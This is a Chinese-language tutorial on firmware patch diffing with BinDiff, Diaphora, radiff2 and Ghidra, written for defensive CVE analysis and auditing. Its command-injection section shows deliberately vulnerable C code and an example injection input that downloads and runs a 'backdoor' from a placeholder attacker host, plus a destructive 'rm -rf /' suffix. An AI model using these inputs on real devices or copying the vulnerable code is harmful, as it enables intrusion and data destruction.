

# 固件与IoT（14）· 固件差分与补丁分析

## 概述与定位

> [!abstract] TL;DR
> 固件差分（Firmware Diffing）是安全研究中定位已修复漏洞最高效的方法之一：厂商发布补丁时，新旧两版固件之间的改动往往直接暴露漏洞成因。本章系统介绍从**文件级哈希筛选**、**字节级 bsdiff**，到**函数级 BinDiff/Diaphora/radiff2**的完整差分体系，配合 IDA Pro 和 Ghidra 的 Version Tracking，展示如何从一个补丁推断出栈溢出、命令注入等漏洞的精确位置与触发条件，最终服务于**防御性安全分析**与合规审计。

在 IoT 与嵌入式安全领域，厂商的"补丁公告"往往只说"修复了若干安全问题"，而不公开任何技术细节。安全研究人员的标准应对手段是**固件差分（patch diffing）**：下载补丁前后的两个固件版本，对比二进制内容，从差异中反推漏洞成因。这一技术同时服务于三个场景：

1. **CVE 分析**：CVE 公告发出后，差分补丁前后版本，找到被修复的函数，理解漏洞原理，评估受影响设备的实际风险面。
2. **安全审计**：甲方要求确认某款设备固件是否已修复特定 CVE，差分当前版本与修复版本即可给出明确答复，比手工逐函数比对效率高一到两个数量级。
3. **逆向回归测试**：在固件迭代过程中，自动化差分可以发现"引入新功能的同时意外回退已修复漏洞"的情况。

> [!caution] 合规与授权
> 固件差分分析应在**自有设备或已获授权的测试环境**中进行。从 CVE 视角分析补丁属于防御性安全研究；但将分析结果直接武器化（编写 PoC 针对他人设备）在多数司法管辖区构成违法行为。本章内容以防御分析与漏洞成因理解为目的，不提供可直接对外攻击的利用链。

---

## 原理与机制

### 补丁分析总体流程

从拿到两版固件，到推断出漏洞成因，整个流程可以分为五个阶段：



核心洞察是：**函数级差分过滤掉了 99% 的无关代码**，让分析人员只需关注真正被修改的几个（有时只有一两个）函数，极大压缩了分析时间。

### 差分层次与适用场景

| 差分层次 | 工具 | 精度 | 适用场景 |
|---|---|---|---|
| 文件级（哈希） | `md5sum`、`diff -rq` | 粗粒度：判断哪些文件变了 | 快速筛选，排除未改动文件 |
| 字节级 | `bsdiff`、`xxd + diff` | 字节：看哪些字节区域被改动 | 小型固件、精确 patch 位置 |
| 指令级 | `radiff2 -A` | 指令：列出新增/删除的汇编指令 | 快速查看改动量、多架构支持 |
| 函数级 | BinDiff、Diaphora、Version Tracking | 函数：匹配+相似度分 | 大型二进制、精准定位修复函数 |

---

## 第一阶段：文件级差分

### 哈希对比（快速筛选）

最轻量的第一步：对比两版 rootfs 中所有文件的 MD5，找出有变化的文件，避免对数百个未变动的库文件浪费分析时间。

```bash
# 解包两版固件
binwalk -Me old_firmware.bin --directory old_out/
binwalk -Me new_firmware.bin --directory new_out/

# 递归计算 MD5（Linux/WSL 环境）
find old_out/ -type f -exec md5sum {} \; | sort > old.md5
find new_out/ -type f -exec md5sum {} \; | sort > new.md5

# 对比（路径前缀不同，需要先规范化路径再比较）
# 方法一：只比对文件名部分
md5sum old_out/squashfs-root/bin/* > old_bin.md5
md5sum new_out/squashfs-root/bin/* > new_bin.md5
diff old_bin.md5 new_bin.md5
```

> [!tip] 路径归一化
> `md5sum` 输出包含完整路径，直接 `diff` 会因路径前缀不同而误报全部差异。建议用 `awk '{print $1, basename($2)}'` 提取哈希值和文件名，再比对，或使用下面的 `diff -rq` 方式。

### 递归目录差分

```bash
# -r: 递归；-q: 只报告差异，不打印内容
diff -rq old_out/squashfs-root/ new_out/squashfs-root/ 2>/dev/null

# 典型输出示例：
# Files old_out/squashfs-root/usr/sbin/httpd and new_out/squashfs-root/usr/sbin/httpd differ
# Files old_out/squashfs-root/lib/libcrypto.so.1.0.0 and new_out/squashfs-root/lib/libcrypto.so.1.0.0 differ
# Only in new_out/squashfs-root/usr/sbin/: dnsproxy  ← 新增文件
```

> [!warning] 符号链接与时间戳干扰
> `diff -rq` 在比较符号链接时行为依赖选项，`--no-dereference` 可以让它比较链接目标字符串而非内容。另外，重新解包同一固件多次可能因临时文件时间戳不同产生误报，建议只关注内容差异（`diff -rq` 默认按内容比较，不受时间戳影响）。

---

## 第二阶段：字节级差分

### bsdiff（BSD 差分算法）

`bsdiff` 是 FreeBSD 和许多嵌入式固件更新系统使用的二进制差分算法，生成紧凑的 patch 文件。通过分析 patch 本身可以了解哪些字节区域被改动。

```bash
# 生成 patch（可能需要安装：apt install bsdiff 或 brew install bsdiff）
bsdiff old_httpd new_httpd patch.bsdiff

# 验证 patch 可逆
bspatch old_httpd reconstructed_httpd patch.bsdiff
md5sum new_httpd reconstructed_httpd  # 应完全相同

# patch 文件结构（二进制，前 32 字节为头部）
xxd patch.bsdiff | head -4
# BSDIFF40\x00... 魔数 + 新文件大小 + 控制块大小 + 差异块大小
```

bsdiff patch 格式由三部分组成：**控制块**（每个三元组描述从旧文件复制 x 字节、从差异块添加 y 字节、跳过 z 字节）、**差异块**（与旧文件对应位置做加法的增量字节）、**附加块**（新文件中全新插入的字节）。通过解析控制块，可以看出哪些相对偏移范围被修改，对应到目标二进制的哪些段（`.text`/`.rodata`）。

### 十六进制暴力对比

当不需要生成可应用的 patch，只想快速查看改动范围时，十六进制对比更直观：

```bash
# 生成十六进制转储，按地址排序（xxd 默认已按地址顺序输出）
xxd old_httpd > old.hex
xxd new_httpd > new.hex
diff old.hex new.hex | head -60

# 典型输出（每行格式：地址  十六进制  ASCII）
# < 0001a3b0: 6c69 6263 2e73 6f2e 300a 3800 0000 0000  libc.so.0.8.....
# > 0001a3b0: 6c69 6263 2e73 6f2e 300a 3900 0000 0000  libc.so.0.9.....
```

> [!warning] 大文件性能
> 对 10 MB 以上的二进制文件使用 `xxd + diff` 会产生极大的临时文件和内存压力。此场景下应直接使用函数级工具（BinDiff/radiff2），跳过字节级暴力对比。

---

## 第三阶段：指令级差分（radiff2）

### radare2 的 radiff2

`radiff2` 是 radare2 套件中专用的二进制差分工具，支持多架构（x86/ARM/MIPS/RISC-V），可以在指令层面输出新增、删除、修改的汇编指令。

```bash
# 基本使用：-A 开启代码分析（慢但精准）
radiff2 -A old_httpd new_httpd

# 仅输出差异（0=相同，1=修改，2=新增/删除）
radiff2 -s old_httpd new_httpd   # -s: 只输出相似度百分比

# 指定架构（嵌入式常用）
radiff2 -A -a arm -b 32 old_httpd new_httpd
radiff2 -A -a mips old_httpd new_httpd

# 图形模式（在 r2 内部）
r2 old_httpd
[0x...]> aaa        # 分析
[0x...]> radiff2 new_httpd   # 对比（r2 内部命令）
```

radiff2 输出格式：
```
0x000156a0  1  fcff ffeb  blx 0x000155a0  →  0x000156a0  1  00ff ffe9  b.w 0x00015ea8
# 地址  类型  旧字节  旧指令  →  地址  类型  新字节  新指令
```

类型字段：`0` = 相同，`1` = 修改，`2` = 新增，`3` = 删除。

---

## 第四阶段：函数级差分（BinDiff）

这是补丁分析中最核心、最高效的一步。函数级差分工具将两个二进制文件各自分解为函数单元，通过多种算法匹配同名/同结构函数，输出相似度分数，让分析人员聚焦于真正被改动的函数。

### BinDiff 核心算法

BinDiff（Google/Zynamics 开发，现已免费）采用多层匹配策略：

1. **精确哈希匹配**：对每个函数计算指令序列哈希（忽略地址、常量差异），哈希相同 = 相似度 1.0，完全未改动
2. **CFG 结构匹配**：比较控制流图（基本块数量、边数、循环嵌套深度），结构相似 → 相似度高
3. **调用图传播**：若函数 A 调用的函数与函数 B 调用的函数匹配，则 A/B 更可能对应
4. **字符串/常量传播**：函数中引用的字符串常量（如错误消息）可作为锚点辅助匹配

输出三类结果：
- **匹配函数（相似度 = 1.0）**：未改动，通常跳过
- **匹配函数（相似度 < 1.0）**：有改动，重点分析对象
- **未匹配函数**：一侧有、另一侧无，可能是新增功能或整体重构

### IDA Pro + BinDiff 操作流程

```
前置：安装 BinDiff（https://www.zynamics.com/bindiff.html）
      安装 IDA 插件（BinDiff 安装包自动安装 ida_bindiff.py）
```

**步骤一：生成 IDA 数据库**

```
# 对旧版可执行文件
ida64 -A -B old_httpd           # -A: 自动分析，-B: 批处理模式生成 .idb
# 或打开 IDA GUI，分析完成后 File → Save（生成 old_httpd.idb）

# 对新版可执行文件（同上）
ida64 -A -B new_httpd
```

**步骤二：运行 BinDiff**

```
# IDA GUI 中（以旧版 idb 为基准）
File → BinDiff 5（或 Diff → Diff Database...）
→ 选择 new_httpd.idb
→ BinDiff 开始分析（通常 10-60 秒）
```

**步骤三：分析差异结果**

BinDiff 结果窗口显示三个标签页：
- **Matched Functions**：匹配列表，含相似度分、基本块数对比
- **Primary Unmatched**：旧版中有、新版中无的函数（可能被删除或重命名）
- **Secondary Unmatched**：新版中有、旧版中无的函数（可能是新增安全检查）

关键操作：
1. 在 Matched Functions 中按相似度升序排列，相似度最低的函数改动最大
2. 双击一个低相似度函数 → 打开图形差异视图（Flow Graph Diff）
3. 同时按 F5（Hex-Rays Decompiler）查看两版的 Pseudocode 差异，用肉眼比对新增逻辑

### Ghidra + Version Tracking

Ghidra 内置的 Version Tracking 功能是 BinDiff 的开源替代方案，完全免费，支持的架构更广（包括 Xtensa、AVR 等冷门嵌入式架构）。

**操作步骤**：

1. **导入两版本**：分别创建 Ghidra 项目，各自导入旧/新可执行文件并完成分析（Auto Analyze）
2. **创建 Version Tracking Session**：`Tools → Version Tracking`，指定源（新版）和目标（旧版）程序
3. **运行相关器（Correlators）**：
   - `Exact Symbol Name Correlator`：完全匹配函数名（如有符号）
   - `Exact Byte Hash Correlator`：字节完全相同的函数（相当于 BinDiff 精确哈希）
   - `Similar Function Instructions Correlator`：指令序列相似性（模糊匹配）
   - `Duplicate Function Instructions Correlator`：处理函数内联、复制等情况
4. **查看未匹配函数**：Session 窗口中 Source/Destination 各显示未匹配函数列表
5. **比较函数**：选中匹配对，右键 → Compare Functions，打开双栏 Pseudocode 视图

> [!tip] BinExport + BinDiff 与 Ghidra 联动
> Google 提供了 `BinExport` Ghidra 插件（开源），可将 Ghidra 分析结果导出为 BinDiff 兼容的 `.BinExport` 文件，然后用 BinDiff GUI 做更精细的可视化对比。这样可以同时享受 Ghidra 免费多架构支持和 BinDiff 直观的图形差异视图。

---

## 第五阶段：补丁模式分析

识别到差异函数后，下一步是理解修复的**补丁模式**，从而反推漏洞成因。以下是 IoT 固件中最常见的几种修复模式。

### 模式一：栈溢出修复（长度检查）

这是最常见的补丁模式，修复方向是在内存复制/格式化操作前增加长度检查。

**旧版（有漏洞）**：
```c
// BinDiff 标记相似度 0.72，函数名（无符号时 IDA 自动命名）：sub_12A34
void process_request(char *user_input) {
    char buf[256];
    strcpy(buf, user_input);      // 危险：无长度限制，user_input 超过 256 字节即溢出
    parse_header(buf);
}
```

**新版（修复后）**：
```c
void process_request(char *user_input) {
    char buf[256];
    // 新增：边界检查（BinDiff 在此处标记指令差异）
    if (strlen(user_input) >= sizeof(buf)) {
        log_error("Input too long");
        return;                   // 早返回，拒绝过长输入
    }
    strncpy(buf, user_input, sizeof(buf) - 1);  // 替换 strcpy → strncpy
    buf[sizeof(buf) - 1] = '\0';               // 确保 null 终止
    parse_header(buf);
}
```

从 BinDiff 的 Pseudocode 差异中，分析人员可以看到：
- 新增了 `strlen()` 调用（IDA 通常能识别为库函数）
- 新增了与 `0xFF`（255）的比较指令（对应 `sizeof(buf) - 1`）
- `strcpy` 被替换为 `strncpy`（函数调用目标地址不同）

逆推漏洞：旧版 `strcpy` 无界限制，`user_input` 来自网络请求则可被攻击者控制 → **基于堆栈的缓冲区溢出**。

### 模式二：命令注入修复（输入验证）

网络设备（路由器、摄像头）中命令注入漏洞极为常见，修复方式是在调用 `system()`/`popen()` 前增加输入白名单验证。

**旧版（有漏洞）**：
```c
// ping 功能处理函数（路由器 Web 界面常见）
void handle_ping(char *host) {
    char cmd[512];
    sprintf(cmd, "ping -c 4 %s", host);  // host 未验证，可注入 ; rm -rf /
    system(cmd);                          // 直接执行拼接命令
}
```

**新版（修复后）**：
```c
// 方案 A：白名单字符验证
int validate_ip(const char *ip) {
    // 新增函数（BinDiff Secondary Unmatched）
    const char *p = ip;
    while (*p) {
        if (!isdigit(*p) && *p != '.' && *p != ':') {
            return 0;  // 非法字符
        }
        p++;
    }
    return 1;
}

void handle_ping(char *host) {
    if (!validate_ip(host)) {           // 新增验证调用
        send_error("Invalid host");
        return;
    }
    char cmd[512];
    sprintf(cmd, "ping -c 4 %s", host);
    system(cmd);
}

// 方案 B（更安全）：改用 execve 数组，彻底规避 shell 注入
void handle_ping_v2(char *host) {
    if (!validate_ip(host)) { return; }
    char *argv[] = {"ping", "-c", "4", host, NULL};
    execve("/bin/ping", argv, envp);    // 不经过 shell 解析，无法注入
}
```

BinDiff 识别特征：
- 出现新增函数（`validate_ip`，出现在 Secondary Unmatched 列表）
- `handle_ping` 函数相似度约 0.75-0.85（新增了函数调用和条件分支）
- 若改为 `execve`，`system` 调用被替换，可在指令差异中直接看到

逆推漏洞：旧版未验证 `host` 参数，攻击者提交 `127.0.0.1; wget http://attacker/backdoor -O /tmp/bd; sh /tmp/bd` 即可 → **命令注入（OS Command Injection，CWE-78）**。

### 模式三：格式化字符串修复

**旧版**：
```c
void log_request(char *user_msg) {
    printf(user_msg);       // 直接作为格式字符串，可被 %n/%x 利用
}
```

**新版**：
```c
void log_request(char *user_msg) {
    printf("%s", user_msg); // 修复：添加格式字符串字面量
}
```

BinDiff 差异极小（相似度 0.95+），但 Pseudocode 中能看到 `printf` 调用参数从一个变量变为两个参数（格式字符串 + 变量）。

### 模式四：整数溢出修复（类型检查）

```c
// 旧版：长度计算可能整数溢出（len1 + len2 绕回到小值）
void *merge_data(uint16_t len1, uint16_t len2) {
    uint16_t total = len1 + len2;   // 溢出：0xFFFF + 0x0001 = 0x0000
    void *buf = malloc(total);       // 分配极小内存
    // ... 后续写入 len1 + len2 字节 → 堆溢出
}

// 新版：改用更大类型或显式检查
void *merge_data(uint16_t len1, uint16_t len2) {
    uint32_t total = (uint32_t)len1 + (uint32_t)len2;  // 升宽避免溢出
    if (total > MAX_ALLOWED_SIZE) {                       // 上界检查
        return NULL;
    }
    void *buf = malloc(total);
    // ...
}
```

BinDiff 差异：看到 `MOVZX`（零扩展到 32 位）或 `UXTB/UXTH`（ARM 零扩展）指令替换了原来的 16 位运算，以及新增的比较+分支指令。

---

## 其他差分工具

### Diaphora（开源 IDA 插件）

Diaphora 是 BinDiff 的开源替代品，基于 SQLite 数据库导出 IDA 分析结果，支持更细粒度的相似度算法，对小型补丁（单函数修改）的识别率有时优于 BinDiff。

```bash
# 安装
pip install diaphora
# 或直接从 GitHub 下载 diaphora.py 放入 IDA plugins 目录

# 使用流程（IDA GUI）：
# 1. 打开 old_httpd → Edit → Plugins → Diaphora → 导出为 old_httpd.sqlite
# 2. 打开 new_httpd → Edit → Plugins → Diaphora → 导出为 new_httpd.sqlite
# 3. Edit → Plugins → Diaphora → Compare two databases
#    选择 old_httpd.sqlite 和 new_httpd.sqlite
# 4. 在结果窗口查看匹配分数（Best Match/Partial Match/Unmatched）
```

Diaphora 的优势：
- 开源免费，可审计算法
- 支持 Partial Match 分析（仅部分基本块匹配）
- 对代码混淆（如 OLLVM）有一定鲁棒性
- 可以批量处理多个二进制（脚本化）

### patchdiff2（老牌 IDA 插件）

`patchdiff2` 是最早流行的 IDA patch diffing 插件（早于 BinDiff），算法相对简单（基于 MD5 哈希+调用图），但在某些场景（指令混淆较少的固件）仍有参考价值。

```
# 安装：将 patchdiff2.plw/patchdiff2.p64 放入 IDA/plugins/
# 使用：Edit → Plugins → PatchDiff2 → 选择第二个 idb
```

### bindiff CLI（命令行批量模式）

BinDiff 支持命令行模式，适合集成到自动化流水线：

```bash
# 先用 BinExport 插件（IDA 或 Ghidra）生成 .BinExport 文件
# 然后用 bindiff 命令行比较（Linux 版 BinDiff 提供 bindiff 可执行文件）
bindiff old_httpd.BinExport new_httpd.BinExport
# 生成 old_httpd_vs_new_httpd.BinDiff 结果文件（可用 BinDiff GUI 打开）
```

---

## 自动化补丁分析流水线

对于需要批量处理多个固件版本的场景（如持续监控某厂商更新），可以将各步骤脚本化。

```bash
#!/bin/bash
# patch_diff_pipeline.sh
# 使用方法：./patch_diff_pipeline.sh old_fw.bin new_fw.bin

OLD_FW="$1"
NEW_FW="$2"
WORK_DIR="./diff_work_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$WORK_DIR"

echo "[1/4] 解包固件..."
binwalk -Me "$OLD_FW" --directory "$WORK_DIR/old_out/" 2>/dev/null
binwalk -Me "$NEW_FW" --directory "$WORK_DIR/new_out/" 2>/dev/null

echo "[2/4] 文件级差分（找变化的可执行文件）..."
diff -rq "$WORK_DIR/old_out/" "$WORK_DIR/new_out/" 2>/dev/null \
  | grep "differ" \
  | tee "$WORK_DIR/changed_files.txt"

echo "[3/4] 对变化的 ELF 文件做指令级初步差分（radiff2）..."
while read -r line; do
    OLD_FILE=$(echo "$line" | awk '{print $2}')
    NEW_FILE=$(echo "$line" | awk '{print $4}')
    
    # 只处理 ELF 文件
    if file "$OLD_FILE" | grep -q "ELF"; then
        BASENAME=$(basename "$OLD_FILE")
        echo "  -> 差分 $BASENAME"
        radiff2 -s "$OLD_FILE" "$NEW_FILE" > "$WORK_DIR/similarity_${BASENAME}.txt" 2>/dev/null
    fi
done < "$WORK_DIR/changed_files.txt"

echo "[4/4] 结果汇总于 $WORK_DIR/"
echo "下一步：对低相似度 ELF 文件，使用 IDA+BinDiff 或 Ghidra Version Tracking 做函数级差分"
```

**IDA 批处理脚本（IDC）**：

```c
// ida_export_idb.idc：批量生成 .idb（在 IDA GUI 中运行）
#include <idc.idc>

static main() {
    // 自动分析（已加载二进制时）
    Wait();
    // 保存数据库
    SaveBase("", 0);
    // 退出（批处理模式）
    Exit(0);
}
// 命令行调用：
// idat64 -A -S"ida_export_idb.idc" -o output.idb target_binary
```

**Python 批处理（Ghidra headless + BinExport）**：

```python
# ghidra_batch_export.py
import subprocess
import os
from pathlib import Path

GHIDRA_HOME = "/opt/ghidra_10.4"
PROJECT_DIR = "./ghidra_project"
BINARIES = ["old_httpd", "new_httpd"]

for binary in BINARIES:
    cmd = [
        f"{GHIDRA_HOME}/support/analyzeHeadless",
        PROJECT_DIR, "PatchDiff",
        "-import", binary,
        "-postScript", "BinExportScript.java",
        "-scriptPath", f"{GHIDRA_HOME}/Ghidra/Features/BinExport/ghidra_scripts/",
        "-overwrite"
    ]
    subprocess.run(cmd, check=True)
    print(f"已导出 {binary}.BinExport")
```

> [!warning] IDA 批处理内存限制
> 大型固件（> 50 MB 的 ELF）在批处理模式下可能触发 IDA 内存限制或分析超时。建议先用 `radiff2 -s` 筛选相似度最低的文件，再用 IDA 精细分析，避免对所有文件都跑 IDA 全量分析。

---

## 逆向视角：从补丁推断漏洞的思维链

函数级差分找到改动函数后，分析人员需要遵循系统性的思维链，而不是随机猜测：

### 第一步：定性差异

| 观察 | 推断 |
|---|---|
| 新增 `strlen`/`sizeof`/边界检查 | 原来存在缓冲区溢出 |
| 新增白名单验证函数 | 原来存在输入注入（命令注入/SQL注入） |
| `strcpy`→`strncpy`，`sprintf`→`snprintf` | 字符串操作越界 |
| `printf(var)`→`printf("%s",var)` | 格式化字符串漏洞 |
| `uint16_t`→`uint32_t`，新增上界检查 | 整数溢出/类型转换漏洞 |
| 新增 `free()` 调用或顺序调整 | Use-After-Free 或 Double-Free |
| 删除 `memcpy`/新增长度参数 | 堆溢出 |
| 新增认证检查函数调用 | 未授权访问/认证绕过 |

### 第二步：追踪数据源

确认漏洞类型后，向上追踪**数据来源**：该参数从哪里来？是网络 socket 读入、文件读取、还是环境变量？数据源决定了漏洞的**可利用性**（网络可触发 > 本地触发）。

```
# 典型追踪链（以命令注入为例）：
handle_ping(host)               ← 差分在此找到修复
  ← cgi_main()                  ← 调用方（IDA x-ref）
    ← HTTP POST handler          ← CGI 处理
      ← accept()/recv()          ← 网络数据源
```

### 第三步：评估可利用性

- **触发条件**：是否需要认证？参数在 POST body / URL 参数 / Cookie / HTTP Header 哪里？
- **影响版本范围**：老于修复版本的所有固件均受影响；查厂商公告确认受影响版本号
- **缓解措施**：路由器是否启用了 ASLR？堆栈是否有金丝雀？（嵌入式 Linux 通常有 ASLR，但 Cortex-M RTOS 几乎从不有栈保护）

---

## 安全性与正确使用

> [!caution] 补丁分析的伦理边界
> 1. **自有设备原则**：补丁分析、PoC 开发必须在**自己拥有或已获书面授权的设备**上进行。CVE 公开后，用差分分析理解漏洞原理是合法的防御性研究；但对他人网络中的未打补丁设备实施利用是违法的。
> 2. **负责任披露**：若在差分过程中发现尚未公开的新漏洞，应通过厂商的漏洞响应团队（PSIRT）或协调机构（CERT/CC、ICS-CERT）进行负责任披露，给予厂商合理修复时间（通常 90 天）。
> 3. **CVE 信息的滞后性**：公开 CVE 公告发出后，攻击者和防御方几乎同时获得补丁分析机会。对于管理大量 IoT 设备的组织，应建立自动化固件版本监控和差分告警，缩短漏洞暴露窗口。
> 4. **工具合规**：IDA Pro 需商业授权。BinDiff 现已免费但仍有许可证限制。Diaphora、radiff2、Ghidra 均为开源/免费，合规风险更低。

### 防御建议

对于**固件开发者**：
- 使用静态分析工具（CodeChecker、Coverity、cppcheck）在开发阶段识别同类漏洞，不要等到补丁分析阶段才暴露
- 固件构建中启用编译器缓解：`-fstack-protector-all`、`-D_FORTIFY_SOURCE=2`、`-Wformat-security`
- 版本号管理：每个安全补丁对应明确的版本号和 ChangeLog，便于用户确认是否已修复

对于**安全运营团队**：
- 建立固件版本清单，订阅厂商 PSIRT 公告，当新版本发布时触发自动化差分分析流水线
- 将差分结果与已知 CVE 数据库（NVD/CNVD）对比，识别影响范围
- 对无法及时升级固件的设备，在网络层部署 IPS 规则作为临时缓解

---

## 小结

| 阶段 | 工具 | 输出 |
|---|---|---|
| 文件级筛选 | `diff -rq`、`md5sum` | 变化文件列表 |
| 字节级定位 | `bsdiff`、`xxd + diff` | 改动字节区域 |
| 指令级概览 | `radiff2 -A` | 改动指令列表 |
| 函数级精准 | BinDiff、Diaphora | 低相似度函数列表 |
| Pseudocode 对比 | IDA F5、Ghidra Decompiler | 具体修复逻辑 |
| 漏洞推断 | 人工分析 | CVE 成因、触发条件 |

固件差分的核心价值在于**把"一个黑盒改动"变成"精确到函数/行级的结构化分析任务"**。配合反编译器（IDA Hex-Rays 或 Ghidra），经验丰富的研究人员往往能在一两个小时内从一个安全公告还原出完整的漏洞成因——这也是为什么厂商在补丁发出后需要快速跟进用户升级的原因：补丁本身就是最好的漏洞说明书。

---

## 相关阅读

- [[45.反编译器与反汇编引擎原理/00.反编译器与反汇编引擎原理总览]]（BinDiff 的 IR 基础：中间表示与 CFG 构建原理）
- [[11.固件漏洞分析]]（栈溢出/命令注入漏洞的成因与利用场景）
- [[03.固件解包与文件系统]]（第一步解包工具 binwalk 的原理与使用）
- [[13.固件仿真：QEMU与Firmadyne与Avatar2]]（差分找到漏洞后，在仿真环境中验证触发条件）

---

⬅️ 上一篇 [[13.固件仿真：QEMU与Firmadyne与Avatar2]] ｜ 🏠 [[00.固件与IoT嵌入式逆向总览]] ｜ 下一篇 [[15.实战：路由器固件全流程分析]] ➡️
